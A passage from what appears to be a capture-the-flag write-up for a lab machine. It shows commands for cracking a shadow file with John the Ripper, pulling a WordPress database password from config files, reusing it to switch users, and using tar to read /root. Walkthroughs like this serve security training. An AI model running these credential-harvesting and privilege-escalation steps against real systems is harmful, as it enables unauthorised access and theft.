 At this point, I moved the shadow file to my desktop, so I can use John The Ripper on it, with the `rockyou.txt` dictionary while I look for other clues.

## Step 3: Privilege escalation

### Password reuse

We know the machine is running a web server. We also know the web server is serving a `wordpress` directory, but it complains about a missing MySQL extension. Let's see what we can get from here.

```
$ cd /var/www/html/wordpress
$ grep -r DB_PASSWORD
wp-admin/setup-config.php:	define('DB_PASSWORD', $pwd);
wp-admin/setup-config.php:			case 'DB_PASSWORD' :
wp-includes/load.php:	$wpdb = new wpdb( DB_USER, DB_PASSWORD, DB_NAME, DB_HOST );
wp-config-sample.php:define('DB_PASSWORD', 'Chrepia##@@!!');
```

We have an obvious password. What's the user?

```
$ cat wp-config-sample.php | grep DB_USER
define('DB_USER', 'kuya');
```

We can learn the user "kuya" exists on the system if we list the directories in `/home/`. Maybe password reuse works here.

```
$ ls /home
kuya  test
$ su kuya
Password: 
kuya@mini:~$ ls
shadow.tar  who_dis.txt
$ cat who_dis.txt 
Well Done ! 

BTW this was too easy :D

Here is something for you <FLAG>
```

Let's try the `tar` trick to steal the root flag too.

```
$ tar -cvf root.tar /root
tar: Removing leading `/' from member names
/root/
/root/.nano/
/root/M3m3L0rd.txt
/root/.selected_editor
/root/.bash_history
$ tar -xvf root.tar
root/
root/.nano/
root/M3m3L0rd.txt
root/.selected_editor
root/.bash_history
$ cat root/M3m3L0rd.txt
You did it !!!!

COngratulations :D 

I just hope you had the same fun as I had while making this box.

```